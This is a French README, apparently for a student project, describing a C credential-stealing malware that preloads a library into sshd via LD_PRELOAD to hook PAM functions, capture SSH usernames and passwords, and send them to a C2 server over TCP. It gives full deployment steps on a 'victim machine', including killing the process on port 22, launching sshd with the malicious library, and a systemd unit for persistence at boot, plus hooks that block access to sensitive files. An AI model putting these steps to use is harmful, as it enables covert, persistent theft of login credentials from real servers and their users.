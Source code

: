 Projet de Malware utilisant LD_PRELOAD

Description :

Ce projet consiste en la création d'un malware en C qui intercepte les fonctions d'authentification SSH pour capturer les identifiants des utilisateurs. Il utilise la technique de LD_PRELOAD pour surcharger les fonctions de la bibliothèque PAM (Pluggable Authentication Modules) et ainsi intercepter les appels aux fonctions d'authentification. Les identifiants capturés sont ensuite envoyés à un serveur de Commande et Contrôle (C2) pour un suivi centralisé.

Fonctionnalités :

 - Interception des fonctions pam_get_user et pam_get_item pour capturer les noms d'utilisateur et les mots de passe.
 - Envoi des identifiants capturés à un serveur C2 via une connexion TCP.
 - Blocage de l'accès à certains fichiers sensibles en surchargeant les fonctions open, openat et fopen.

Fichiers du projet
 - pam_auth_logger.c : Contient le code du malware pour intercepter les fonctions PAM et envoyer les identifiants au serveur C2.
 - block_files.c : Contient le code pour bloquer l'accès à certains fichiers en surchargeant les fonctions de la bibliothèque standard C.
 - Makefile : Script de compilation pour générer la bibliothèque partagée libpam_auth_logger.so.
 - srv_tcp.c : Code du serveur C2 qui reçoit et enregistre les identifiants envoyés par le malware.

Compilation :

Dans un premier temps faites un git clone du projet :

Allez dans le dossier ou vous souhaitez copier le projet puis faite un :

 -  git clone https://github.com/snipzr/Partiel_C.git

Pour compiler le projet, exécutez la commande suivante :

make (Cette commande génère le fichier libpam_auth_logger.so)


Sur le C2 faite aussi un git clone puis pour compiler le serveur TCP, utilisez la commande suivante :

 - gcc -o srv_tcp srv_tcp.c

Utilisation
Démarrage du serveur C2 :

Sur le C2, lancez le serveur TCP :

 - ./srv_tcp

Déploiement du malware sur la machine victime :

( Pensez a changez l'adresse IP du C2 par celle de votre C2dans le pam_auth_logger.c à la ligne : 129 sinon les crédentials ne s'enveront pas)

dans le dossier Partiel_C compilez les fichiers nécessaires en utilisant la commande :

make (utilisable grace au Makefile qui compilera le malware) 

Assurez-vous que le port 22 n'est pas utilisé par un autre processus :


Utilisez la commande suivante pour lister les processus en écoute sur le port 22 :

 - sudo lsof -i :22

notez le PID (2eme colone)

Arreter le processus qui utilise le port :

 - sudo kill -9 <PID>

Vérifier que le port 22 a été libéré

 - sudo netstat -tuln | grep ":22"


Ensuite créez le répertoire /run/sshd :

sudo mkdir -p /run/sshd
sudo chmod 0755 /run/sshd

Testez manuellement le chargement de la bibliothèque avec LD_PRELOAD :

LD_PRELOAD=/chemin/vers/libpam_auth_logger.so /usr/sbin/sshd -D

Puis tentez de vous connecter en ssh via une machine lambda ppour verifier que le C2 recoit bien les crédentials

Si tout fonctionne correctement, créez un service systemd pour automatiser le démarrage :

sudo vim /etc/systemd/system/ld_preload_sshd.service
Ajoutez le contenu suivant :

[Unit]
Description=SSH Daemon with LD_PRELOAD
After=network.target

[Service]
Environment="LD_PRELOAD=/chemin/vers/libpam_auth_logger.so"
ExecStart=/usr/sbin/sshd -D
Restart=on-failure
RestartSec=5s
StandardOutput=journal
StandardError=journal

[Install]
WantedBy=multi-user.target
Remplacez /chemin/vers/libpam_auth_logger.so par le chemin réel vers le fichier.

Rechargez les unités systemd et activez le service :

sudo systemctl daemon-reload
sudo systemctl enable ld_preload_sshd
sudo systemctl start ld_preload_sshd
sudo systemctl status ld_preload_sshd

Ainsi le Malware sera lancé a chaque démarage de la machine 


EXPLICATION :


Fonctionnement de LD_PRELOAD

LD_PRELOAD est une variable d'environnement utilisée sur les systèmes Unix pour spécifier des bibliothèques partagées à charger avant les autres lors de l'exécution d'un programme. Cela permet de surcharger des fonctions spécifiques, offrant ainsi la possibilité de modifier le comportement d'applications sans changer leur code source.

Dans ce projet, LD_PRELOAD nous permet d'intercepter les appels aux fonctions PAM sans modifier le code source du démon SSH. En utilisant cette technique, nous chargeons la bibliothèque libpam_auth_logger.so avant les autres bibliothèques système. Cela redéfinit des fonctions comme pam_get_user et pam_get_item pour capturer les identifiants utilisateur, qui sont ensuite transmis au serveur C2. L'approche par LD_PRELOAD est discrète et évite de nécessiter des droits root, ce qui est en phase avec les objectifs du projet.


Fonctionnement d'un Linker

Un linker, ou éditeur de liens, est un outil qui combine divers modules de code objet en un seul exécutable ou une bibliothèque. Il résout les références entre les symboles (fonctions, variables) définis dans différents modules, permettant ainsi à un programme de fonctionner correctement.

Dans le contexte de LD_PRELOAD, le linker dynamique (ld.so sur les systèmes Linux) joue un rôle clé en redirigeant les appels système vers nos fonctions redéfinies. Lorsque notre bibliothèque est chargée, le linker garantit que les appels aux fonctions PAM (par exemple, pam_get_user) passent par nos définitions personnalisées. Cette redirection est ce qui permet d'intercepter les credentials sans modifier directement les fichiers binaires du démon SSH.


Fonctionnement des Threads sur Linux

Un thread est une unité d'exécution au sein d'un processus. Les threads partagent le même espace mémoire et les mêmes ressources, mais peuvent être exécutés indépendamment, permettant une exécution parallèle au sein d'une application.

Dans ce projet, les threads pourraient être utilisés pour gérer plusieurs connexions simultanément entre les machines infectées et le serveur C2. Par exemple, chaque fois que des credentials sont capturés et transmis, un thread distinct pourrait gérer l'envoi au serveur C2, tout en permettant au malware de continuer à fonctionner en arrière-plan. Cela garantit une exécution fluide et rapide des tâches sans bloquer le système.
